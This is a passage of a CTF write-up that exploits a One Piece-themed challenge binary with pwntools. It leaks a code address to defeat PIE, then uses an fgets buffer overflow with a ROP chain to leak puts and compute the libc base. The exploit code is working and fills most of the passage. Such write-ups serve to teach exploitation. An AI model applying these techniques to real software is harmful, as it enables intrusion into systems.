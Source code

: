 ```python
p.recvuntil('(menu)>>')
p.sendline('read')
p.recvuntil('>>')
p.send('y' * 0x27 + 'z')
p.recvuntil('>>')
p.sendline('gomugomunomi')
p.recvuntil('Luffy is amazing, right ? : ')
_ = p.recvline().strip()
mugiwara = (int(_,16) & (2**64 - 0x1000)) + binary.sym.mugiwara
log.info('mugiwara: ' + hex(mugiwara))
binary.address = mugiwara - binary.sym.mugiwara
log.info('binary.address: ' + hex(binary.address))
```

From the menu, `read` is used to fill the buffer with `0x27` `y`s and one `z`.  This will trigger the vulnerability and permit an `fgets` BOF when the secret word `gomugomunomi` (see `choice` decompilation) is entered from the menu.  A `mugiwara` address is also leaked; pick this up to compute the base process address.

### First Pass: BOF `fgets` to leak libc and ret to `choice`

```python
p.recvuntil('Wanna tell Luffy something ? : \n')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
log.info('pop_rdi: ' + hex(pop_rdi))

payload  = 0x38 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.choice)

p.sendline(payload)

_ = p.recv(6)
puts = u64(_ + b'\x00\x00')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

This is standard fare CTF GOT provided leakage; having `puts` _put_ itself out there and _ret2choice_.

At this point however we still do not know the version of libc, we'll have to run this remotely and harvest the last 3 nibbles of the `puts` address to use the [libc-database](https://github.com/niklasb/libc-database) (example [here](https://github.com/datajerk/ctf-write-ups/blob/master/fwordctf2020/welcome_pwner/README.md#decompile-with-ghidra)).

After identifying `libc6_2.30-0ubuntu2.2_amd64` as the libc version, we can put that into the second block in the setup and switch to that for the rest of the exploit development.
